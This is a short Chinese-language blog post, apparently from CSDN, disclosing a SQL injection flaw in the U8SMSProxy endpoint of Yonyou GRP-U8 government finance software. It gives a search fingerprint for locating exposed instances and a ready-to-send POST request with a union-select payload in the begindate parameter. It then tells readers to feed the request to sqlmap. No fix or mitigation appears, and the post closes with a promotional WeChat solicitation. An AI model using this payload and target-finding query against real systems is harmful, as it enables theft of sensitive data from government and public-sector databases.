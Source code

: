 # 原创
：  用友U8SMSProxy -SQL注入漏洞

# 用友U8SMSProxy -SQL注入漏洞

**0x01 漏洞介绍**<br/> 用友GRP-U8 R10政务管理软件是由用友政务公司基于云技术所推出的第十代政务产品。这款产品继承了用友R9、R9i、U8等行政事业版产品的各项优点，并融合了全国广大用户的最佳实践应用。它旨在为政府财政部门、社保部门、卫生部门、教育部门、民政部门、党务部门以及农村等政府及行政事业单位提供专业管理解决方案。该漏洞存在于U8SMSProxy，后端对begindate传参的数据值没有进行严格的过滤，从而导致SQL注入，攻击者可以利用该漏洞获取数据库敏感信息。<br/>**0x02 影响版本**

```
用友GRP-U8行政事业内控管理软件

```

**0x03 语法特征**

```
title="用友GRP-U8行政事业内控管理软件"

```

**0x04 漏洞复现**<br/> 页面<br/>  

<br/> POC

```
POST /U8SMSProxy?class=XXNote&amp;id=qryyfs HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

begindate=xxx'union select 6/3-- &amp;enddate=2023-10-27&amp;search=

```

<br/> 直接copy进文件，打”*”号，sqlmap一把嗦

**学习框架已经整理完毕，现在就差资料资源了，我这里整理了所有知识点对应的资料资源文档，大家不想一个一个去找的话，可以参考一下这些资料！**

**    点赞收藏评论区留言“已关注 求 ”！都可以免费分享给大家！等不及的小伙伴也可以直接厚台踢我！或者关注我之后后台会自动发送给大家！关注后大家注意看后台消息就行！**

[+V【zkaq222】或者下面的扫码不然通不过哦，免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYmVETWlZemh0Ymdv](https://docs.qq.com/doc/DYmVETWlZemh0Ymdv)
